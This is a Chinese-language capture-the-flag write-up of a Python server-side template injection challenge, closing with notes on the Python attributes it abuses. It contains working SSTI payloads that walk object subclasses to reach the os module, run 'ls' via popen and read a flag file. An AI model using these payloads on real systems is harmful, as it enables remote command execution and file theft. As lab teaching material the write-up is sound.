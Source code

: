 # Web_python_template_injection
## 题目描述
暂无  
## 思路
http://220.249.52.133:31939
点开题目链接：
![avatar](./picture/Web_python_template_injection_1.png)  
是一道 python 模板注入的题，尝试一下：  
http://220.249.52.133:31939/{{7*7}}  
![avatar](./picture/Web_python_template_injection_2.png)  
确实存在该漏洞。  
看看网站模块都有些啥：  
http://220.249.52.133:31939/{{[].__class__.__base__.__subclasses__()}}  
![avatar](./picture/Web_python_template_injection_3.png)  
os 模块都是从 warnings.catch_warnings 模块入手的，因此，查找 catch_warnings 的位置，为第59个。  
我们再查看catch_warnings模块都存在哪些全局函数：  
http://220.249.52.133:31939/{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()}}  
![avatar](./picture/Web_python_template_injection_4.png)  
发现了 linecache 函数，os 模块就在其中。  
使用 ['o'+'s']，可绕过对 os 字符的过滤，查看一下有那些文件：   
http://220.249.52.133:31939/{{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')}}  
![avatar](./picture/Web_python_template_injection_5.png)  
flag 应该就在这个 fl4g 文件中了，尝试访问一下：  
http://220.249.52.133:31939/{{"".__class__.__mro__[2].__subclasses__()[40]("fl4g").read()}}  
![avatar](./picture/Web_python_template_injection_6.png)  
得到 flag。  


## 相关知识
1. 对于模板注入漏洞，判断漏洞是否存在，一般在 url 后添加 {{‘a'+'x'}} 或者 {{7*7}} 以查看是否会执行，若花括号内的式子被执行，则说明存在模板注入漏洞。  
2. 用 python 获取系统权限  
os.system 和 os.popen。前者返回退出状态码，后者以 file 形式返回输出内容。（https://blog.csdn.net/sxingming/article/details/52071514）  
3. 用python 语句寻找文件  
\_\_class\_\_ ：返回对象所属的类  
\_\_mro\_\_：返回一个类所继承的基类元组（用于寻找基类）  
\_\_base\_\_ ：返回该类所继承的基类（用于寻找基类）  
\_\_subclasses\_\_ ： 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的引用的列表  
\_\_init\_\_ ： 类的初始化方法  
\_\_globals\_\_ ： 对包含函数全局变量的字典的引用  
